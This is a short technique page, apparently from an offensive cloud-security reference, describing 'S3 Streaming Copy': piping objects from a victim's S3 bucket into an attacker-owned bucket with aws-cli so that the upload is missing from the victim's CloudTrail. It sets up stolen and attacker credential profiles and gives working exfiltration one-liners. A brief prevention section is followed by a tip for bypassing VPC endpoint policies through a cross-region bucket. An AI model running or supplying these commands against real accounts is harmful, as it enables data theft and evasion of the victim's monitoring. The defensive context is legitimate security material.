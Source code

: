 ```yaml
---
author_name: Houston Hopkins
title: S3 Streaming Copy
description: Utilizng standard out to standard in with aws-cli utilizing multiple profiles to avoid logging and detection in a victim environment
hide:
  - toc
---
```


# S3 Streaming Copy

Shout Out to Janardhan Prabhakara for showing me this all those years ago!

Requirements: a shell, terminal session, command prompt, a victim's AWS Access Key or STS token, an attacker AWS key and bucket to land in a separate account.

Why would anyone use this?

In many environments AWS to AWS traffic is largely unfiltered and voluminous. As well, an attacker may find a key that can perform GetObject action on S3, but not PutObject. Or perhaphs, more likely, an attacker would like to hide their exfiltration commands. 

If an attacker lands a shell on an EC2 Instance of the victim, any issued aws commands will be coming from an expected/trusted network which is even less likely to be detected.  However, S3 Streaming Copy techniques can also be used from any terminal with aws-cli.

When this attack is perfomed the S3 GetObject call is recorded in the VICTIM cloudtrail dataevents (if enabled, which is unlikley) But, the S3 PutObject call is recorded in the ATTACKER's cloudtrail.  The VICTIM cannot see the S3 PutObject side of the copy in AWS Cloudtrail.

When using the aws-cli utilize the `--profile` to specify the IAM context profile from the .aws/credentials file.

Step 1: setup an profile in .aws/credentials for the ATTACKER credentials. These are credentials from your attacker controlled account aka not the victims credentials
```
[attacker]
aws_access_key_id = <attacker_key_id>
aws_secret_access_key = <attacker_secret_key>
```

Step 2: Create a profile for the VICTIM credentials.  These are the keys attained with access to the victim's AWS enviornment. 

!!! Note
    This step is optional if using a shell on a VICTIM EC2, running an EC2 instance profile that has the permissions to test.
```
[victim]
aws_access_key_id = <victim_key_id>
aws_secret_access_key = <victim_secret_key>
```

Step 3: example: S3 Stream Copy command for a single file from cli
```
aws s3 cp --profile victim s3://victim_bucket/juicy_data.txt - | (aws s3 cp --profile attacker  - s3://attacker_bucket/juicy_data.txt )
```

Step 3: example: S3 Stream Copy command for a single file from cli of an Ec2 instance using the Instance Profile
```
aws s3 cp s3://victim_bucket/juicy_data.txt - | (aws s3 cp --profile attacker  - s3://attacker_bucket/juicy_data.txt )
```

Prevention:
A known, but not very common, way to prevent this is by mandating S3 communication through a VPC Endpoint and [applying a VPC Endpoint Policy](https://docs.aws.amazon.com/whitepapers/latest/building-a-data-perimeter-on-aws/appendix-2-vpc-endpoint-policy-examples.html) that denies any request that does not match the principalOrgId.

This is becoming more common with the popularity of [Data Perimeter](https://docs.aws.amazon.com/whitepapers/latest/building-a-data-perimeter-on-aws/building-a-data-perimeter-on-aws.html) guardrails

!!! Note
    If this technique doesn't work, it is possible there is a VPC Endpoint policy is in place. Try making the ATTACKER destination bucket in another AWS Region as Cross-region calls typically do not traverse a VPC Endpoint.
